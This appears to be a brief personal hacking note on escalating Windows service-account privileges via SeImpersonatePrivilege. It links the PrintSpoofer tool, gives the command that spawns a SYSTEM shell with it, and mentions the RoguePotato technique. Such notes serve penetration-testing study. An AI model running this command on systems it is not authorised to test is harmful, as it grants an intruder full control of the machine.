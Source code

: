 # service account privileges exploiting SeImpersonatePrivilege
- https://github.com/itm4n/PrintSpoofer
  ```powershell
  PrintSpoofer64.exe -i -c cmd
  ```
- rogue potato (current) - lots of port forwarding

` zet/20221003151075/README.md `

# Related

- [20221003151076](/zet/20221003151076/README.md) service account privileges exploiting
- ~/kb/hacking/windows/service-account-privileges.md

Tags:

    #hacking #windows #service 

